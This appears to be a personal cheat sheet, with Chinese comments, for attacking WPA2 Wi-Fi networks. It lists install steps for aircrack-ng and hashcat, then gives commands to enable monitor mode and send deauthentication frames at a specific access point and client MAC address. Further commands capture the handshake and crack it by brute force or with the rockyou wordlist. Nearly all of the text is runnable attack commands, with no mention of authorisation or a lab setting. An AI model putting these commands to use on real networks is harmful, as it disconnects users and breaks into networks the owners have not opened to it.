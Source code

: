 ### wifi wpa2 attack

created: 20220709 updated: 20221210 authors: alick97

---

- https://www.mzbky.com/1791.html
- https://zh.wikihow.com/%E4%BD%BF%E7%94%A8Kali-Linux%E7%A0%B4%E8%A7%A3WPA%E6%88%96WPA2%E6%97%A0%E7%BA%BF%E5%B1%80%E5%9F%9F%E7%BD%91
- [for mac os ] https://martinsjean256.wordpress.com/2018/02/12/hacking-aircrack-ng-on-mac-cracking-wi-fi-without-kali-in-parallels/
- [for mac os] https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html

### packages install in ubuntu
```
sudo apt install aircrack-ng hashcat

wget https://github.com/hashcat/hashcat-utils/archive/master.zip
unzip master.zip
cd hashcat-utils-master/src
make
# get cap2hccapx.bin
```

######
### 一些常见命令
#### 常用指令
```
# 启动监听 会创建新的net interface 后缀为 mon
airmon-ng start wlan0
# 停止监听 net interface
airmon-ng stop wlan0
# 关闭相关没开启mon之前用到interface的service
airmon-ng start check --kill


# 监听所有
airodump-ng wlan0mon

# 发起断开连接
sudo aireplay-ng -0 10 -a 24:CF:24:32:F2:4F -c 60:AB:67:E8:C6:44  wlo1mon
# 支持搜索5g 默认2.4g
sudo airodump-ng --band abg --output-format pcap -w t -c 10 --bssid 24:CF:24:32:F2:4F wlo1mon

# hashcat相关
cap2hccapx capture.cap capture.hccapx
hashcat -m 2500 capture.hccapx wordlist.txt
hashcat -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d
sudo hashcat --deprecated-check-disable -m 2500 t2.hccapx ../dict/rockyou.txt
```

#### ubuntu关闭mon interface后 重启network
```
sudo systemctl restart NetworkManager
```